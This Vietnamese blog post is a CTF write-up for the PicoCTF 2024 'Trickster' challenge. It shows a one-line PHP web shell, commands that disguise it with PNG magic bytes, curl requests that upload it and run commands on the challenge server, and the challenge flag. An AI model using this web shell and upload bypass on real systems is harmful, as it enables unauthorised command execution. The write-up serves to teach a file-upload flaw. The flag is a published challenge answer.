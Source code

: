 ```yaml
---
title: Trickster
date: 2025-10-27 23:00:00 +0700
categories: [Web Exploitation, PicoCTF 2024, Medium]
tags: [web, pico, medium]
author: khoa
description: I found a web app that can help process images, PNG images only!
toc: true
comments: true
---
```


## **Cách mình làm**

### Soi web
Vừa vào web thì mình thấy nó cho mình phần upload file như thế này:
![img-description](https://i.ibb.co/tTkXCvyj/image-2025-10-27-224600263.png)
_Sau khi vào web_

Check thử robots.txt xem có gì hot:
![img-description](https://i.ibb.co/Z6nSY62c/image-2025-10-27-224740109.png)
_Robots.txt_

Vậy là mình biết nó có phần /uploads/

### Nghịch
Kỹ thuật mình sẽ sử dụng là ImageTragick!, thêm magic byte của file png vào file .php rồi upload lên cho nó thực thi lệnh (RCE

#### Shell.php
Đầu tiên các bạn cần chuẩn bị 1 file shell.php với nội dung như sau:
```php
<?php system($_GET['cmd']); ?>
```

#### PNG Header
Sau đó các bạn thêm PNG Header vào để nguỵ trang:
##### PowerShell (Windows)
```powershell
[System.IO.File]::WriteAllBytes("shell.php.png", @(0x89,0x50,0x4E,0x47,0x0D,0x0A,0x1A,0x0A))
Get-Content shell.php -Raw | Out-File -Append -Encoding ASCII shell.php.png
```

##### Bash (Linux)
```bash
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.png.php
cat shell.php >> shell.png.php
```

![img-description](https://i.ibb.co/LXN3RZvN/image-2025-10-27-225425603.png)
_Sau khi tạo file nguỵ trang_

#### Upload File

Dùng Burp Suite hoặc curl:
```bash
curl -F 'file=@shell.png.php' http://atlas.picoctf.net:PORT/
```

Khi thành công → file được lưu tại `/uploads/shell.png.php`

![img-description](https://i.ibb.co/QFCYL4QP/image-2025-10-27-225602779.png)
_Sau khi upload file_

#### RCE
Truy cập shell:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.png.php?cmd=whoami"
```

Và mình đã RCE thành công!!!
![img-description](https://i.ibb.co/Lz7HNFcp/image-2025-10-27-225758108.png)
_RCE thành công_

Thử ls quanh quanh thì thấy có cái file txt này lạ lạ:
![img-description](https://i.ibb.co/4wTnM54W/image-2025-10-27-225906341.png)
_ls quanh quanh_

Cat thử thì có flag nè!!!
![img-description](https://i.ibb.co/6JbkrXd4/image-2025-10-27-230025466.png)
_lòi flag_

FLAG: **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}**

## **Kết luận**
### Bản chất
Đây là một lỗ hỏng upload file, bypass bằng các Magic Bytes của file png, từ đó các bạn có thể thực thi lệnh

### Cách làm
B1: Tạo file png giả, có chứa nội dung của file php để thực thi shell
B2: Upload lên web
B3: Phá!!!

### Tại sao Magic Bytes có thể bypass được và cho phép RCE???
Lý do cốt lõi là sự kiểm tra không đầy đủ.

Hệ thống chỉ quan tâm đến "cái mác" (magic byte) mà bỏ qua hoàn toàn "nội dung" (phần còn lại của tệp). Kẻ tấn công chỉ cần "dán đúng mác" lên một "gói hàng cấm" là có thể vượt qua trạm kiểm soát.

Nói chung là cũng tại thằng dev mà thôi =)))

## **Lời kết**
Chúc các bạn đánh CTF vui vẻ!!!